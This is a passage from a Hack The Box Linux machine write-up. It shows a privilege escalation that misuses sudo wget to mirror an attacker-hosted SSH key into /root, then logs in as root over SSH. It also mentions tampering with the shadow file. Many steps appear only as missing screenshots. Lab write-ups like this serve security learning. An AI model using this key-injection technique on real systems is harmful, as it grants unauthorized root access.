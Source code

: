 - Back the shadow file in its password 

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/65.jpg)


### Another method ssh key
- Create an ssh file and inject it

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/66.jpg)

```sh
mkdir .ssh
ssh-keygen
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/67.jpg)

```sh
/srv/python/.ssh/id_rsa
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/68.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/69.jpg)

- -P => directory prefix
- -m => mirror

- create simple http server

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/70.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/71.jpg)

```sh
sudo wget -P /root/ -m 10.10.14.2:8000
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/72.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/73.jpg)
> -nH => To exclude that to create that server folder

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/74.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/75.jpg)

- Unfortunately authorized keys doesnot have , execute permissions

- -i => to specify the key location

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/76.jpg)

```sh
ssh -okexAlgorithms=+diffie-helman-group1-sha1 -p 22022 -i /srv/python/.ssh/id_rsa root@10.10.10.76
```